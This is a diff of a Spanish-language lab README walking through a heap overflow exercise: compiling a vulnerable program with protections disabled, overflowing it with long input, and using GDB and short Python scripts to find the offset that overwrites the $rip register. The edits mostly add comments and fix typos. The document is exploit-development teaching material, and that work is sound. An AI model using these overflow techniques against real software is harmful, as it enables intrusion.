

Cambios

Changed region(s): [[0.0, 0.0, 1.0, 1.0]]

diff --git a/Practica5/README.md b/Practica5/README.md
@@ -9,16 +9,16 @@ Compilamos y corremos el programa:
 ```
 gcc heapOverflow.c -o heapOverflow.o -w -g -no-pie -z execstack
 ./heapOverflow.o Hola
-./heapOverflow.o XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX (+64 characters)
+./heapOverflow.o XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX    #(+64 characters)
 ```
 ![Step1-Commands](imgs/step1_heap.png "Run commands")
 
 ## Paso 2
 Mediante el uso del debugger GDB, observamos el funcionamiento de nuestro programa:
 ```
-gdb ./heapOverflow.o
-(gdb) list 25,40
-(gdb) b 38
+gdb ./heapOverflow.o    #Corremos GDB
+(gdb) list 47,60        #Listamos el código de las líneas 47 a 60
+(gdb) b 59              #Ponemos un breakpoint en la línea 59
 ```
 ![Step2-Commands](imgs/step2_gdb_list.png "GDB list")
 
@@ -55,7 +55,7 @@ chmod a+x python1.py
 ![Step3-Commands](imgs/step3_python.png "Python script")
 
 ## Paso 4
-Comprobamos el estado del registro $rip (instruction pointer).Primero, creamos un nuevo exploit, para cargar menos caracteres (80 en total):
+Comprobamos el estado del registro $rip (instruction pointer). Primero, creamos un nuevo exploit, para cargar menos caracteres (80 en total):
 ```python
 #!/usr/bin/python
 print("X"*70 + "YAYBYCYDYEYFYG")
@@ -68,16 +68,17 @@ gdb -q ./heapOverflow.o    #-q para que no muestre el banner de bienvenida
 (gdb) q                 #Salimos del debugger
 (gdb) y                 #Para confirmar la salida de gdb
 ```
-Observamos el valor de rip: GYFY -> 0x47594659
+Observamos el valor de $rip: GYFY -> 0x47594659
+
 ![Step4-Commands](imgs/step4_gdb_python2.png "GDB registers")
 
-No obstante, este enfoque acabaría por pisar la memoria, por lo que no podremos ver el registro. POr eso es mejor realizar lo siguiente:
+No obstante, este enfoque acabaría por pisar la memoria, por lo que no podremos ver el registro. Por eso es mejor realizar lo siguiente:
 ```python
 #!/usr/bin/python
 print("X"*80 + "CDEF")
 ```
 
-Procedemos como anteriormente y observamos el valor de rip: CDEF -> 0x46454443
+Procedemos como anteriormente y observamos el valor de $rip: CDEF -> 0x46454443
 
 ![Step4-Commands](imgs/step4_gdb_python3.png "GDB registers")
 
